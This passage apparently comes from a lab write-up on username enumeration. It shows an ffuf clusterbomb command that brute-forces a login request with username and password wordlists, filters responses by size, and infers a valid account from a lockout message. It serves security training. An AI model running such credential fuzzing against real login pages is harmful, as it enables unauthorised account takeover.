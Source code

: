 To find anomalies, we rerun the command with a size filter: 

```bash  
sudo ffuf -request req6.txt -request-proto https -mode clusterbomb -w new_users.txt:FUZZUSER -w new_pass.txt:FUZZPASS -fs 3132  
```  

**Explanation**: 
- **`-fs 3132`**: Excludes responses with a size of 3132 bytes. 

#### Results: 

One response is significantly larger (**3184 bytes**) for the username `at`. The response contains an error message: 

```  
You have made too many incorrect login attempts. Please try again in 1 minute(s).  
```  

This confirms `at` is a valid username. 

![ue31m](images/31m.png)

![ue31n](images/31n.png)
